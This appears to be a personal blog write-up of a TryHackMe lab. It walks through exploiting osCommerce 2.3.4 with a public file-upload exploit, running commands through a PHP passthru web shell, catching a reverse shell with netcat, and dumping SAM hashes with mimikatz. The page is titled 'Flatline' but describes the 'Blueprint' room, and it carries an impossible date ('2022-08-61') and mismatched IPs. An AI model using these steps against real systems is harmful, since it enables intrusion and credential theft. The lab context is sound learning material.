 ```yaml
---
weight: 3
title: "CTF writeup - Flatline"
date: 2022-08-26T14:57:40+08:00
lastmod: 2022-08-61T15:00:40+08:00
description: "This is my second TryHackMe writeup"

title: CTF writeup - Flatline
featuredImage: tryhackmebanner.jpg
hiddenfeaturedImage: true

tags: ["TryHackMe", "CTF"]
categories: ["Writeups"]

lightgallery: false
summary: The tags on this box tells us that it involves SQLi, RCE and enumeration.
---
```


# {{< figure src="/flatline/TryHackMe_Flatline.png" title="How low are your morals? Hack this box to find out!" >}}

## Summary

1. Recon with nmap & Enumerate the services. SMB on port 139 and 445, HTTP-Proxy on port 8080 and HTTPS on port 443.
2. The HTTP service on port 8080 has directory listing and hosts an e-commerce app. 
3. Initial foothold by exploiting a known misconfiguration in the oscommerce application which lets us create an authenticated user.
4. With the authenticated user we exploit a known vulnerability in the app which gives us Arbitrary File Upload.
5. Upload a PHP script which gives us Remote Code Execution through PHP passthru.
6. Create and upload a payload with a reverse Windows TCP/IP shell.
7. We catch the shell, enumerating further and upload mimikatz to the target machine.
8. Dump the hashes, crack the hashes.
9. Read root.txt and get our last flag to complete the room.

## Recon & Scanning

We start with our usual nmap scan:

nmap -sV -sC -A -T4 -p- 10.10.13.10

{{< figure src="/blueprint/nmap.jpg" title="" >}}

We immidietaly discover some ports that quickly tells us this is a Windows machine with some services worth investigating.

1. Port 80 - Reveals a webserver which leads us to a default “page not found” webpage.
2. Port 445 - Which is SMB running on top of TCP
3. Port 3306 - Which is the default port for the classic MySQL service
4. Port 139 - Which is the old SMB that runs on top of NetBIOS.
5. Port 443 - The standard port for Secure HTTP. This leads us to a directory listing.
6. Port 8080 - Apache Webserver with OpenSSL and PHP

## Enumeration

So, our first step will be to look at the SMB shares using enum4linux and smbclient.
(Nothing interesting to reveal here, so we move on..)

Let's go ahead and visit the web service on port 443:

{{< figure src="/blueprint/directorylisting.jpg" title="" >}}

Interesting...a directory listing with some sort of e-commerce app. We can also see that the server is running Apache with OpenSSL and PHP, with even the version info disclosed.

We can enumerate further and try directory brute forcing with dirsearch:

```bash
python3 dirsearch.py -u http://10.10.13.10:8080/oscommerce-2.3.4/ -e php,cgi,html,txt,exe -x 400,401,403 -r -R 3 -t 100
```

{{< figure src="/blueprint/dirsearch1.jpg" title="" >}}

Results! We found some interesting paths; ADMIN and INSTALL.

{{< figure src="/blueprint/dirsearch_result.jpg" title="" >}}

Browsing to the INSTALL page, we find this strange site Welcome to osCommerce Online Merchant v2.3.4!
It wants us to start an installation...

{{< figure src="/blueprint/oscommerce_install.jpg" title="" >}}

So without tampering anymore with the installation page, we have to find out some more info on this and see if theres a possible exploit.
A quick “searchsploit” in Kali terminal tells us that this might have a vulnerability.

{{< figure src="/blueprint/searchsploit.jpg" title="" >}}

The ones that stand out to me are “Arbitrary File Upload” and “Remote Code Execution”. This can perhaps get us a shell and initial access.
Let's check it out!

Copying the python script to our working directory:
{{< figure src="/blueprint/pythonscript1.jpg" title="" >}}

After looking through the python script for the “Arbitrary File Upload”, I can see that theres a method for an AUTHENTICATED user to exploit this succesfully . We should probably go back to the installation page and create an authenticated user before going further...
{{< figure src="/blueprint/pythonscript2.jpg" title="" >}}

## Exploitation

#### Back to the /install/ page we create a new user: 

{{< figure src="/blueprint/oscommerce_install2.jpg" title="" >}}

After the process is done, we see this page:

{{< figure src="/blueprint/oscommerce_install3.jpg" title="" >}}

We now have completed the process and created an authenticated user. We can try to upload something now with the Arbitrary File Upload exploit.
We could try a simple php script that works with native PHP:

{{< figure src="/blueprint/php_passthru.jpg" title="" >}}

Explanation from PHP.net:

>    exec() is for calling a system command, and perhaps dealing with the output yourself.
>    system() is for executing a system command and immediately displaying the output - presumably text.
>    passthru() is for executing a system command which you wish the raw return from - presumably something binary.

So basically this will let us do RCE through our browser adress bar. Pretty cool!

{{< figure src="/blueprint/shell.jpg" title="" >}}

```bash
python 43191.py -u http://10.10.248.2:8080/oscommerce-2.3.4/ --auth=admin:admin -f shell.php
```

The command is successful. Lets try to browse to the provided link and execute commands!

{{< figure src="/blueprint/browser_rce.jpg" title="" >}}
<!--/shell.php?cmd=whoami-->

So we now have managed to upload a file AND we can also perform Remote Code Execution on the system. Because we are a system user, we also have the HIGHEST privileges on the local system. Awesome! =)

From Microsoft.com:
*“The account NT AUTHORITY\System which is a Local System account.. It is a powerful account that has unrestricted access to all local system resources. It is a member of the Windows Administrators group on the local computer, and is therefore a member of the SQL Server sysadmin fixed server role.”*

This immediately gives me an idea; Lets create an msfvenom payload for Windows with a reverse shell and upload it just like we did with the shell.php file.

{{< figure src="/blueprint/msfvenom.jpg" title="" >}}

So you can see here that all it took was 2 simple commands with the right parameters.
All we need to do next is to catch the reverse shell connection with a netcat listener.

We start our listener to prepare for our newly uploaded shell:

```bash
nc -lvnp 9999
```

And then browse to http://10.10.248.2:8080/oscommerce-2.3.4/catalog/admin/shell.php?cmd=shell

{{< figure src="/blueprint/netcat.jpg" title="" >}}

We have a windows CMD shell! 
Our tasks wants us to get the hash of the first user.

This makes me think of Mimikatz, a tool that is used to grab hashes.
Now that we can upload files, lets upload Mimikatz. We also need to know which architecture of windows that is running with a simple “systeminfo”

{{< figure src="/blueprint/systeminfo.jpg" title="" >}}
<!--systeminfo shows x86-based PC architecture-->

Copying the mimikatz binary to our working directory and preparing for upload:
{{< figure src="/blueprint/copy_katz.jpg" title="" >}}

```bash
locate mimikatz_x86.exe
cp /usr/share/responder/tools/MultiRelay/bin/mimikatz_x86.exe .
ls
```

AND we upload it just as we did before!
{{< figure src="/blueprint/upload_katz.jpg" title="" >}}

We run "dir" back in the netcat session shell, and there it is! Mimikatz.exe.
{{< figure src="/blueprint/dir.jpg" title="" >}}

## Dumping and cracking hashes

NOW, its time to grab some hashes back in our pseudo-terminal!


{{< figure src="/blueprint/hashdump.jpg" title="mimikatz_x86.exe; lsadump::sam" >}}

We can proceed to crack the users NTLM hashes with JohnTheRipper or Hashcat, but lets try the easy and faster method first;
Hello crackstation!

{{< figure src="/blueprint/crackstation.jpg" title="" >}}

The final task is to find the root.txt flag. We can do a quick search for this and use the MORE command to display the contents of the .txt file.

{{< figure src="/blueprint/filesearch.jpg" title="" >}}

```powershell
cd/
where /r c:\ root*
more c:\Users\Administrator\Desktop\root.txt.txt
```
And we found the last flag!

##  Final Thoughts

Blueprint was a great learning opportunity for me. I could have made it much faster with just using Metasploit and a meterpreter session, but instead I chose to do it manually using the upload and RCE exploit and Mimikatz.
